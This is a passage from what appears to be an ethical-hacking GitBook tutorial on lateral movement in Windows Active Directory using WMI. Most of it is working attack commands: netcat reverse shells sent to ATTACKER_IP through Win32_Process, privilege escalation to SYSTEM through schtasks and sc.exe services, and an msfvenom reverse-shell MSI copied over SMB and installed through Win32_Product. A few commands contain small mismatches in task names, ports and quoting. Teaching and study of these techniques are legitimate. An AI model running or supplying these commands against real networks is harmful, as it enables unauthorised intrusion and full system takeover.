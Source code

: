 # Example

Refer to the section labelled ["Example scenario"](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/lateral-movement-and-pivoting/example-scenario) to understand the setup we will be working with. The following will illustrate an example of how we can use WMI to move laterally in a network.

### (1) Using `Win_32_Process`

It appears that this method does not directly provide us with a shell session as the privileged `nt authority\system` user immediately. We need to perform certain privilege escalation steps (with the administrator credentials) to gain a privileged shell.

For the sake of simplicity, we will assume that the machine has the netcat binary installed in `C:\tools\nc64.exe`.

#### 1.  Start a listener on the attacker machine

```sh
$ nc -lvnp 9999
```

> Take note of the port number used in this step

#### 2. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Create method from the `Win32_Process` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session:

{% code overflow="wrap" %}
```powershell
PS C:\> $username = 'admin';
PS C:\> $password = 'pass';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

PS C:\> $Opt = New-CimSessionOption -Protocol Dcom
PS C:\> $Session = New-CimSession -ComputerName iis.test.com -Credential $credential -SessionOption $Opt -ErrorAction Stop 
```
{% endcode %}

b. Invoke `Win32_Process` Create method:

{% code overflow="wrap" %}
```powershell
PS> $Command = "c:\tools\nc64.exe ATTACKER_IP 9999 -e cmd.exe"

PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ 
CommandLine = $Command 
}
```
{% endcode %}

Now, we should retrieve a remote shell on the listener we established previously:

* Note that we have obtained a shell as the admin user, but not the highest privileged system user yet

```
C:\> whoami
admin
```

#### 3. Escalate privilege to the highest privileged system user (`SYSTEM`):

#### 3.1 Using `schtasks`

a. Start a listener on the attacker machine (on a separate port from the previously used one):

{% code overflow="wrap" %}
```sh
$ nc -lvnp 6666
```
{% endcode %}

b. Create and start a new task as the `SYSTEM` user:

{% code overflow="wrap" %}
```powershell
C:\> schtasks /ru "SYSTEM" /create /tn "rooty" /tr "c:\tools\nc64.exe ATTACKER_IP 6666" /ru "SYSTEM" flag
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
C:\> schtasks /tn "privsec" /run
```
{% endcode %}

Now, we should receive a shell as the `SYSTEM` user:

```powershell
C:\> whoami
nt authority\system
```

#### 3.2 Using `sc.exe`&#x20;

a. Start a listener on the attacker machine:

```
$ nc -lvnp 6666
```

b. Create and start a new service&#x20;

{% code overflow="wrap" %}
```powershell
C:\> sc.exe create "rooty" binPath= "c:\tools\nc64.exe ATTACKER_IP 6666" start= auto

C:\> sc.exe start "rooty"
```
{% endcode %}

Now, we should receive a shell as the `SYSTEM` user:

```powershell
C:\> whoami
nt authority\system
```



### (2) Using `.msi` packages and `Win32_Product`

#### 1. Craft the reverse shell payload (`msfvenom`) in the `.msi` format

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=8888 -f msi -o rvshell.msi
```
{% endcode %}

> Take note of the value passed to the `LPORT` option

#### 2. Copy the payload over to the target machine using _SMB_ (or any other methods available):

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -W test.com -L '//iis.test.com'
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...


$ smbclient -c "put <msi_name>.msi -U admin -W test.com '//iis.test.com/ADMIN$'
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the `.msi` file created with `msfvenom`

_Start the msfconsole listener (used to catch the shell in one of the later step):_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST <local_addr>
msf6 exploit(multi/handler) > set LPORT 9999
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > run
```
{% endcode %}

#### 3. Create a new WMI session against our target machine (`iis.test.com`) and invoke the Install method from the `Win32_Product` class:

> This step should be performed from an "intermediary" machine in the network that we have compromised (`jmp.test.com`)

a. Create WMI session

Follow the steps as shown in "part (1) Using `Win32_Process` " above.

b. Invoke `Win32_Product` Install method:

{% code overflow="wrap" %}
```powershell
PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
PackageLocation = "C:\Windows\<installed_msi>.msi";
Options = "";
AllUsers = $false
}
```
{% endcode %}

After executing the above commands, we should receive a connection on the `msfconsole` listener we have established earlier:

{% code title="msfconsole" overflow="wrap" %}
```powershell
C:\> whoami
nt authority\system
```
{% endcode %}

